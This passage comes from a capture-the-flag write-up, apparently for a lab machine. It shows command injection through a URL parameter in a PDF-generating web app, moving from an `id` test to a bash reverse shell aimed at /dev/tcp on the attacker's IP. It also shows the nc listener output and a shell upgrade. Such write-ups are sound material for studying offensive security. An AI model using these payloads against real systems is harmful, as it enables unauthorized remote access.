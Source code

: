 ```

http://10.10.14.6/?name=%20`id`

```

The resulting PDF:

![image-20230517213305107](/img/image-20230517213305107.png)

It’s not completely clear to me *why* the `%20` (URL-encoded space) has to be at the start of the parameter. It seems to mostly be necessary if there are spaces in the command I’m running.

### Shell

To get a shell, I’ll change the URL to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

http://10.10.14.6/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"`

```

On sending, I get a connect back at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.189 39606
bash: cannot set terminal process group (680): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$

```

And I’ll upgrade the shell using the standard `script` and `stty` [trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

ruby@precious:/var/www/pdfapp$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
ruby@precious:/var/www/pdfapp$

```
